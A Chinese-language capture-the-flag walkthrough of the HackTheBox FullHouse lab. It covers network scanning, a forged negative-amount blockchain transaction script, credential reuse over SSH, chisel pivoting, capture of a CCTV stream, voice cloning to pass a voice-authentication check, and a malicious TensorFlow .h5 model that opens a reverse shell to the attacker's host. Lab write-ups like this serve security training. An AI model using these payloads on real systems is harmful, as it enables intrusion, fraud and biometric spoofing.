

# FullHouse

## ENTRY POINT

```plaintext
10.13.38.31
```

## Introduction

> 作者：amra13579
>
> HTBCasino 高度重视保障玩家的隐私与安全。为此，赌场聘请您来发现并报告新旧组件中可能存在的安全漏洞。您的目标是在内部网络中获得立足点，提升权限，最终全面攻破整个基础设施，同时在此过程中收集多个标志。此专业实验室旨在测试您在枚举、代码审查、横向移动、Web 利用及其他攻击技术方面的技能。
>
> 您需要为以下内容做好充分准备：
>
> - 源代码审查
> - Web 应用攻击
> - 逆向工程
> - Windows 系统利用
> - Active Directory 利用
> - 区块链利用
> - AI 绕过 / 利用

## CASINO 资产探测

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo nmap -vv --min-rate 2000 -A -p- 10.13.38.31
......
Nmap scan report for bogon (10.13.38.31)
Host is up, received timestamp-reply ttl 63 (0.43s latency).
Scanned at 2025-03-19 22:02:58 CST for 92s
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-cors: GET POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Casino
445/tcp   open  tcpwrapped syn-ack ttl 63
9001/tcp  open  tcpwrapped syn-ack ttl 63
23333/tcp open  elxmgmt?   syn-ack ttl 63
50080/tcp open  tcpwrapped syn-ack ttl 63
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 52576/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 23536/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 17455/udp): CLEAN (Failed to receive data)
|   Check 4 (port 28421/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-security-mode: Couldn't establish a SMBv2 connection.

┌──(randark ㉿ kali)-[~]
└─$ sudo ./tools/fscan-1.8.4/fscan -h 10.13.38.31
......
start infoscan
10.13.38.31:22 open
10.13.38.31:80 open
10.13.38.31:445 open
10.13.38.31:9001 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://10.13.38.31        code:301 len:178    title:301 Moved Permanently 跳转 url: http://casino.htb/
```

## CASINO Port 80 Web Service

尝试直接请求

```shell
┌──(randark ㉿ kali)-[~]
└─$ http get 10.13.38.31
HTTP/1.1 301 Moved Permanently
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Wed, 19 Mar 2025 14:08:42 GMT
Location: http://casino.htb/
Server: nginx/1.18.0 (Ubuntu)

<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

添加 hosts 记录之后，尝试访问 `http://casino.htb/`


发现其存在有登录功能


## CASINO BlockChains 交易签发漏洞

尝试以 `aa123@a.com:123` 注册一个账户


在 `Contribute` 页面


得到了一份 `htbchain.zip` 压缩文件


经过分析，这个代码实现了一个简单的区块链系统

那么也就是说，需要使用这套区块链系统，往链上签一个恶意的交易（如金额为负的交易），从而使攻击者的余额增加

首先，先构建主要的类，然后编写主逻辑

```python
import requests
import time
import json
import base64
from copy import deepcopy
from collections import OrderedDict
from hashlib import sha512
from Crypto.PublicKey import RSA
from Crypto.Hash import SHA
from Crypto.Signature import PKCS1_v1_5

BLOCKCHAIN_URL = "http://casino.htb/blockchain"


class Blockchain:
    def __init__(self, bank_address):
        self.genesis_block = Block({"index": 0, "previous_hash": 1, "transactions": [], "nonce": 0, "timestamp": 0})
        self.bank_address = bank_address
        genesis_transaction = Transaction(
            sender_address="0",
            receiver_address=bank_address,
            amount=4,
            transaction_inputs="",
            is_genesis=True,
            user_id="0",
        )
        self.genesis_block.transactions.append(genesis_transaction)
        self.genesis_block.current_hash = self.genesis_block.get_hash()
        self.block_chain = [self.genesis_block]

    def add_block(self, new_block):
        if self.validate_block(new_block, 1):
            self.block_chain.append(new_block)
            return self

    def mine_block(self, block_to_mine, difficulty):
        nonce = 0
        block_to_mine.nonce = nonce
        block_hash = block_to_mine.get_hash()
        while block_hash[:difficulty] != "0" * difficulty:
            nonce += 1
            block_to_mine.nonce = nonce
            block_hash = block_to_mine.get_hash()
        block_to_mine.current_hash = block_hash
        self.add_block(block_to_mine)

    def to_json(self):
        return json.dumps(
            OrderedDict([("blockchain", [block.to_ordered_dict() for block in self.block_chain])]), default=str
        )

    def validate_block(self, block, difficulty, is_new_chain=False):
        if difficulty * "0" != block.get_hash_obj().hexdigest()[:difficulty]:
            return False
        transaction_to_test = deepcopy(block.transactions[0])
        transaction_to_test.signature = ""
        transaction_to_test = transaction_to_test.to_json()
        hash_object = SHA.new(transaction_to_test.encode("utf8"))
        sender_public_key = block.transactions[0].sender_address
        public_key = RSA.importKey(sender_public_key)
        if (
            block.transactions[0].receiver_address != self.genesis_block.transactions[0].receiver_address
            and block.transactions[0].receiver_address != block.transactions[0].sender_address
            and block.transactions[0].sender_address != self.genesis_block.transactions[0].receiver_address
        ):
            return False
        if not is_new_chain:
            if self.block_chain[-1].current_hash != block.previous_hash and block.index != 0:
                if block.transactions[0].sender_address == self.genesis_block.transactions[0].receiver_address:
                    block.previous_hash = self.block_chain[-1].current_hash
                    self.mine_block(block, 1)
                return False
        return True


class Block:
    def __init__(self, block_data):
        self.index = block_data["index"]
        self.timestamp = block_data["timestamp"]
        self.transactions = block_data["transactions"]
        self.nonce = block_data["nonce"]
        self.previous_hash = block_data["previous_hash"]
        self.current_hash = None

    def to_ordered_dict(self):
        return OrderedDict(
            [
                ("index", self.index),
                ("timestamp", self.timestamp),
                ("transactions", ([self.transaction_to_ordered_dict(trans) for trans in self.transactions])),
                ("nonce", self.nonce),
                ("previous_hash", self.previous_hash),
            ]
        )

    def transaction_to_ordered_dict(self, transaction):
        try:
            return OrderedDict(
                [
                    ("sender_address", transaction["sender_address"]),
                    ("receiver_address", transaction["receiver_address"]),
                    ("amount", transaction["amount"]),
                    ("transaction_id", transaction["transaction_id"]),
                    ("transaction_inputs", transaction["transaction_inputs"]),
                    ("transaction_outputs", transaction["transaction_outputs"]),
                    ("signature", transaction["signature"]),
                    ("change", transaction["change"]),
                    ("user_id", transaction["user_id"]),
                ]
            )
        except:
            return transaction.to_ordered_dict()

    def to_json(self):
        return json.dumps(self.to_ordered_dict(), default=str)

    def get_hash(self):
        return self.get_hash_obj().hexdigest()

    def get_hash_obj(self):
        return sha512(str(self.to_json()).encode("utf-8"))


class Transaction:
    transaction_counter = 0

    def __init__(self, sender_address, receiver_address, amount, transaction_inputs, user_id, is_genesis=False):
        self.sender_address = sender_address
        self.receiver_address = receiver_address
        self.amount = amount
        self.transaction_id = str(user_id) + str(Transaction.transaction_counter)
        self.transaction_inputs = transaction_inputs
        self.transaction_outputs = []
        self.signature = ""
        self.change = 0
        self.user_id = user_id

        if not is_genesis:
            total_utxo = 10000
            self.change = total_utxo - self.amount
            if self.change < 0:
                self.change = 0
            else:
                self.change = -self.amount
            self.transaction_outputs.append(
                {str(self.user_id) + str(Transaction.transaction_counter): (self.receiver_address, self.amount)}
            )
            Transaction.transaction_counter += 1
            self.transaction_outputs.append(
                {str(self.user_id) + str(Transaction.transaction_counter): (self.sender_address, self.change)}
            )
        else:
            self.transaction_outputs.append(
                {"0" + str(Transaction.transaction_counter): (self.receiver_address, self.amount)}
            )
        Transaction.transaction_counter += 1

    def to_ordered_dict(self):
        return OrderedDict(
            [
                ("sender_address", self.sender_address),
                ("receiver_address", self.receiver_address),
                ("amount", self.amount),
                ("transaction_id", self.transaction_id),
                ("transaction_inputs", self.transaction_inputs),
                ("transaction_outputs", self.transaction_outputs),
                ("signature", self.signature),
                ("change", self.change),
                ("user_id", self.user_id),
            ]
        )

    def to_json(self):
        return json.dumps(self.to_ordered_dict(), default=str)

    def sign_transaction(self, private_key):
        private_key_obj = RSA.importKey(private_key)
        signer = PKCS1_v1_5.new(private_key_obj)
        transaction_data = self.to_ordered_dict()
        hash_object = SHA.new(json.dumps(transaction_data, default=str).encode("utf8"))
        self.signature = base64.b64encode(signer.sign(hash_object)).decode("utf8")

# 写入注册之后得到的 RSA 私钥
user_private_key = """
"""

# 在 /view_blockchain 路由中可以发现自己的公钥地址
user_public_key = ""

blockchain_data = json.loads(requests.get("http://casino.htb/view_blockchain").text)

bank_wallet_address = blockchain_data["blockchain"][0]["transactions"][0]["receiver_address"]
current_blockchain = Blockchain(bank_wallet_address)
blockchain_blocks = []
for block_data in blockchain_data["blockchain"]:
    new_block = Block(block_data)
    new_block.current_hash = new_block.get_hash()
    blockchain_blocks.append(new_block)
current_blockchain.block_chain = blockchain_blocks

malicious_transaction = Transaction(
    sender_address=user_public_key,
    receiver_address=bank_wallet_address,
    amount=-9999999999,
    transaction_inputs={"0": -9999999999},
    user_id=2,
)
malicious_transaction.sign_transaction(user_private_key)
transactions = [malicious_transaction]

new_block = Block(
    {
        "index": len(current_blockchain.block_chain) - 1,
        "timestamp": time.time(),
        "transactions": transactions,
        "nonce": current_blockchain.block_chain[-1].index + 1,
        "previous_hash": current_blockchain.block_chain[-1].get_hash(),
    }
)
current_blockchain.mine_block(new_block, 1)
response = requests.post(BLOCKCHAIN_URL, json=current_blockchain.to_json())

if response.status_code == 200:
    print("[±] Check your Coins !!")
else:
    print("[!] Check Website !!")
```

首先，注册之后，在链上历史会有给攻击者账户转账初始金额的信息


这里的时间对的上的话，字段 `receiver_address` 就是攻击者的公钥地址

将注册得到的 RSA 私钥和公钥地址填入脚本，然后签一个恶意的交易上链，即可恶意增加钱包余额


这个时候就可以购买 VIP 权限，然后在左侧就可以看到一个新的功能 `Slot`


在请求 Header 中发现敏感信息


```plaintext
c2xvdHNfdGVzdDpzcFZzOWd2c2s4cDhsVko=

slots_test:spVs9gvsk8p8lVJ
```

用户名 `cassandra` 可以在网站页面上找到

尝试使用 `cassandra:spVs9gvsk8p8lVJ` 登录服务器

```shell
┌──(randark ㉿ kali)-[~]
└─$ sshpass -p spVs9gvsk8p8lVJ ssh cassandra@casino.htb
......
cassandra@casino:~$ whoami
cassandra
```

## FLAG - An Apple a Day Keeps the Doctor Away

在当前目录即可发现

```shell
cassandra@casino:~$ ls -lh
total 5.8M
-rwxrwxr-x 1 cassandra cassandra 5.8M Aug 25  2024 agent
-rw-r----- 1 root      cassandra   34 Nov  3  2023 flag.txt
cassandra@casino:~$ cat flag.txt
FHS{b4l4nc3_4ll_z3r0s_fr0m_sl0t5}
```

即可得到答案

```flag
FHS{b4l4nc3_4ll_z3r0s_fr0m_sl0t5}
```

## CASINO 建立中转枢纽

探测一下基本情况

```shell
(remote) cassandra@casino:/home/cassandra$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.13.38.31  netmask 255.255.254.0  broadcast 10.13.39.255
        inet6 dead:beef::250:56ff:fe94:3b80  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe94:3b80  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:3b:80  txqueuelen 1000  (Ethernet)
        RX packets 405996  bytes 76548973 (76.5 MB)
        RX errors 0  dropped 16  overruns 0  frame 0
        TX packets 385874  bytes 352251702 (352.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.52.31  netmask 255.255.255.0  broadcast 10.0.52.255
        inet6 fe80::250:56ff:fe94:573d  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:57:3d  txqueuelen 1000  (Ethernet)
        RX packets 21297  bytes 115138170 (115.1 MB)
        RX errors 0  dropped 14  overruns 0  frame 0
        TX packets 22757  bytes 54042370 (54.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 292555  bytes 155473334 (155.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 292555  bytes 155473334 (155.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

(remote) cassandra@casino:/home/cassandra$ arp -a
? (10.0.52.111) at 00:50:56:94:6b:c9 [ether] on eth1
_gateway (10.13.38.2) at 00:50:56:94:40:64 [ether] on eth0
? (10.0.52.2) at 00:50:56:94:13:cf [ether] on eth1
```

上传 `fscan` 之后，对 `10.0.52.0/24` 进行探测

```shell
(remote) cassandra@casino:/tmp$ ./fscan -h 10.0.52.31/24
start ping
(icmp) Target 10.0.52.5       is alive
(icmp) Target 10.0.52.2       is alive
(icmp) Target 10.0.52.31      is alive
[*] Icmp alive hosts len is: 3
10.0.52.31:80 open
10.0.52.5:22 open
10.0.52.31:22 open
10.0.52.31:445 open
10.0.52.2:135 open
10.0.52.2:445 open
10.0.52.2:139 open
10.0.52.2:88 open
10.0.52.31:9001 open
[*] alive ports len is: 9
start vulscan
[*] WebTitle http://10.0.52.31         code:301 len:178    title:301 Moved Permanently 跳转 url: http://casino.htb/
[*] NetInfo
[*]10.0.52.2
   [->]dc
   [->]10.0.52.2
[*] NetBios 10.0.52.2       [+] DC:FULLHOUSE\DC
```

使用 `chisel` 建立中转枢纽

```shell
# Local Kali
┌──(randark ㉿ kali)-[~]
└─$ ./tools/chisel-v1.9.1/chisel_1.9.1_linux_amd64 server -p 1337 --reverse
2025/03/20 09:49:11 server: Reverse tunnelling enabled
2025/03/20 09:49:11 server: Fingerprint XrhkI8NNQ1o+eRMk17I84dcsDoa6vsKHJ/CMbPKQ4ss=
2025/03/20 09:49:11 server: Listening on http://0.0.0.0:1337
2025/03/20 09:51:06 server: session#1: tun: proxy#R:10000=>socks: Listening

# 10.0.52.31
(remote) cassandra@casino:/tmp$ ./chisel_1.9.1_linux_amd64 client 10.10.17.57:1337 R:0.0.0.0:10000:socks
2025/03/20 01:51:03 client: Connecting to ws://10.10.17.57:1337
2025/03/20 01:51:06 client: Connected (Latency 227.257811ms)
```

## CCTV 资产探测

使用 `nmap` 扫描

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo proxychains nmap --min-rate 5000 -T4 -sT -A --top-ports 100 10.0.52.5
......
Nmap scan report for bogon (10.0.52.5)
Host is up (0.86s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.3 (FreeBSD 20230316; protocol 2.0)
| ssh-hostkey:
|   3072 da:27:2d:b4:15:43:bf:71:21:50:a8:b5:e7:3f:fa:10 (RSA)
|   256 fb:cf:94:03:5b:a4:1c:85:b4:51:94:26:7c:cf:6e:0f (ECDSA)
|_  256 f6:0d:01:16:88:0f:c5:45:8d:67:6d:f3:63:11:8f:7c (ED25519)
554/tcp open  rtsp    GStreamer rtspd
|_rtsp-methods: OPTIONS, DESCRIBE, ANNOUNCE, GET_PARAMETER, PAUSE, PLAY, RECORD, SETUP, SET_PARAMETER, TEARDOWN
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

`22` 端口上的 `OpenSSH 9.3` 肯定不是目标，那么探测一下 RTSP 协议

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo proxychains nmap -sT -sCV --script "rtsp-*" -p 554 10.0.52.5
Nmap scan report for bogon (10.0.52.5)
Host is up (0.18s latency).

PORT    STATE SERVICE VERSION
554/tcp open  rtsp    GStreamer rtspd
| rtsp-url-brute:
|   discovered:
|_    rtsp://bogon/mpeg4
|_rtsp-methods: OPTIONS, DESCRIBE, ANNOUNCE, GET_PARAMETER, PAUSE, PLAY, RECORD, SETUP, SET_PARAMETER, TEARDOWN
```

尝试连接一下，看一下视频流

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains ffmpeg -rtsp_transport tcp -i rtsp://10.0.52.5/mpeg4 -c copy out.mp4
[proxychains] Strict chain  ...  127.0.0.1:10000  ...  10.0.52.5:554  ...  OK
Input #0, rtsp, from 'rtsp://10.0.52.5/mpeg4':
  Metadata:
    title           : Session streamed with GStreamer
    comment         : rtsp-server
  Duration: 00:01:31.86, start: 0.039411, bitrate: N/A
  Stream #0:0: Video: h264 (High), yuv420p(progressive), 2560x1440, 25 fps, 25 tbr, 90k tbn
Stream mapping:
  Stream #0:0 -> #0:0 (copy)
Output #0, mp4, to 'out.mp4':
  Metadata:
    title           : Session streamed with GStreamer
    comment         : rtsp-server
    encoder         : Lavf61.7.100
  Stream #0:0: Video: h264 (High) (avc1 / 0x31637661), yuv420p(progressive), 2560x1440, q=2-31, 25 fps, 25 tbr, 90k tbn
Press [q] to stop, [?] for help
[mp4 @ 0x55a68e5d54c0] Timestamps are unset in a packet for stream 0. This is deprecated and will stop working in the future. Fix your code to set the timestamps properly
[vost#0:0/copy @ 0x55a68e5d5c40] Non-monotonic DTS; previous: 0, current: 0; changing to 1. This may result in incorrect timestamps in the output file.
[out#0/mp4 @ 0x55a68e57f180] video:70120KiB audio:0KiB subtitle:0KiB other streams:0KiB global headers:0KiB muxing overhead: 0.031933%
frame= 2278 fps= 24 q=-1.0 Lsize=   70143KiB time=00:01:31.86 bitrate=6255.0kbits/s speed=0.983x
```

得到一个 `mp4` 文件之后，播放它


得到一个密码 `4vQ03013nKj9`

尝试使用这个密码登录服务器

```shell
┌──(randark ㉿ kali)-[~]
└─$ sshpass -p 4vQ03013nKj9 ssh root@casino.htb
......
root@casino:~# whoami
root
```

## FLAG - TRX leaves his mark

```shell
root@casino:~# ls -lh
total 4.0K
-rw-r----- 1 root root 38 Nov  3  2023 flag.txt
root@casino:~# cat flag.txt
FHS{1_th1nk_w3_4r3_b31ng_w4tch3d_O.O}
```

即可得到答案

```flag
FHS{1_th1nk_w3_4r3_b31ng_w4tch3d_O.O}
```

## VAULT 资产探测

由靶场界面可以得知，靶机 VAULT 是一台 Windows 靶机，由 ARP 和 Ping 记录不一致也可以大致猜测出来

不使用 Ping 进行探测

```shell
(remote) root@casino:/tmp# ./fscan -np -h 10.0.52.111
start infoscan
10.0.52.111:443 open
[*] alive ports len is: 1
start vulscan
[*] WebTitle https://10.0.52.111       code:200 len:1173   title:Voice Authentication
已完成 1/1
[*] 扫描结束, 耗时: 4.043295941s
```

尝试直接访问


看起来是一个声纹加密的储存库，需要尝试欺骗这里的声纹识别系统

在已经得到完整权限的 `CASINO` 服务器上搜寻有用的音频文件

```shell
(remote) root@casino:/tmp# find / -type f \( -name "*.mp3" -o -name "*.wav" -o -name "*.flac" -o -name "*.aac" -o -name "*.ogg" -o -name "*.m4a" \) 2>/dev/null
/var/www/casino/static/audio/manifest.wav
```

将 `manifest.wav` 文件下载下来，尝试使用 [PlayAI](https://app.play.ht) 对声音进行克隆


上传之后，即可通过认证


## FLAG - I hear you!

flag 在界面上显示

```flag
FHS{n0w_th3y_4r3_l1st3n1ng_t00}
```

## VAULT Tensoflow 加载模型反序列化

在界面上，可以看到一个上传 Tensoflow 的 `.h5` 模型的功能点



尝试构造一个恶意的模型实现加载的时候反序列化触发 RCE

:::warning

根据服务器 Web 服务指纹，可以确定是 IIS 服务，所以使用的是 Windows 的 RCE Payload

:::

可以参考 [Splinter0/tensorflow-rce: RCE PoC for Tensorflow using a malicious Lambda layer](https://github.com/Splinter0/tensorflow-rce)

```dockerfile

```

```python title="exploit.py"
import tensorflow as tf

def exploit(x):
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.17.57",9999))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    import pty
    pty.spawn("posershell")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

然后编译镜像并启动容器

```shell
randark@developer:~/codes/Hackthebox-Fullhouse$ docker build -t fullhouse-exp .
[+] Building 0.1s (7/7) FINISHED                                                                              docker:default
 => [internal] load build definition from Dockerfile                                                                    0.0s
 => => transferring dockerfile: 106B                                                                                    0.0s
 => [internal] load metadata for docker.io/tensorflow/tensorflow:latest                                                 0.0s
 => [internal] load .dockerignore                                                                                       0.0s
 => => transferring context: 2B                                                                                         0.0s
 => [internal] load build context                                                                                       0.0s
 => => transferring context: 497B                                                                                       0.0s
 => [1/2] FROM docker.io/tensorflow/tensorflow:latest                                                                   0.0s
 => [2/2] COPY ./exploit.py /root/exploit.py                                                                            0.0s
 => exporting to image                                                                                                  0.0s
 => => exporting layers                                                                                                 0.0s
 => => writing image sha256:4028b237f62cadbf3c231ac2c2752e5a72c1316ae0e8b00347331bd0621337aa                            0.0s
 => => naming to docker.io/library/fullhouse-exp                                                                        0.0s
randark@developer:~/codes/Hackthebox-Fullhouse$ docker run -it fullhouse-exp

________                               _______________
___  __/__________________________________  ____/__  /________      __
__  /  _  _ \_  __ \_  ___/  __ \_  ___/_  /_   __  /_  __ \_ | /| / /
_  /   /  __/  / / /(__  )/ /_/ /  /   _  __/   _  / / /_/ /_ |/ |/ /
/_/    \___//_/ /_//____/ \____//_/    /_/      /_/  \____/____/|__/


WARNING: You are running this container as root, which can cause new files in
mounted volumes to be created as the root user on your host machine.

To avoid this, run the container by specifying your user's userid:

$ docker run -u $(id -u):$(id -g) args...

root@e1cc11c93e27:/# cd /root
root@e1cc11c93e27:~# python3 exploit.py 
2025-03-21 01:01:28.583236: I tensorflow/core/util/port.cc:153] oneDNN custom operations are on. You may see slightly different numerical results due to floating-point round-off errors from different computation orders. To turn them off, set the environment variable `TF_ENABLE_ONEDNN_OPTS=0`.
2025-03-21 01:01:28.656472: I tensorflow/core/platform/cpu_feature_guard.cc:210] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.
To enable the following instructions: AVX2 AVX_VNNI FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.
2025-03-21 01:01:30.619013: I tensorflow/core/util/port.cc:153] oneDNN custom operations are on. You may see slightly different numerical results due to floating-point round-off errors from different computation orders. To turn them off, set the environment variable `TF_ENABLE_ONEDNN_OPTS=0`.
WARNING:absl:You are saving your model as an HDF5 file via `model.save()` or `keras.saving.save_model(model)`. This file format is considered legacy. We recommend using instead the native Keras format, e.g. `model.save('my_model.keras')` or `keras.saving.save_model(model, 'my_model.keras')`. 
root@e1cc11c93e27:~# ls -lh
total 20K
-rw-r--r-- 1 root root 13K Mar 21 01:01 exploit.h5
-rw-rw-r-- 1 root root 458 Mar 21 01:00 exploit.py
```

然后将`.h5`提取出来

```shell
root@e1cc11c93e27:~# exit
exit
randark@developer:~/codes/Hackthebox-Fullhouse$ docker ps -a
CONTAINER ID   IMAGE           COMMAND       CREATED         STATUS                      PORTS     NAMES
e1cc11c93e27   fullhouse-exp   "/bin/bash"   2 minutes ago   Exited (0) 44 seconds ago             modest_brattain
randark@developer:~/codes/Hackthebox-Fullhouse$ docker cp e1cc11c93e27:/root/exploit.h5 .
Successfully copied 14.8kB to /home/randark/codes/Hackthebox-Fullhouse/.
```

并上传这个模型

## Assets and Reviews

### CASINO

> Hostname: casino
>
> IP Address: 10.13.38.31
>
> IP Address: 10.0.52.31

- 代码审计
- Blockchains 区块链攻击

### CCTV

> IP Address: 10.0.52.5

- RTSP 协议交互

### VAULT

> IP Address: 10.0.52.111

### DC

> IP Address: 10.0.52.2
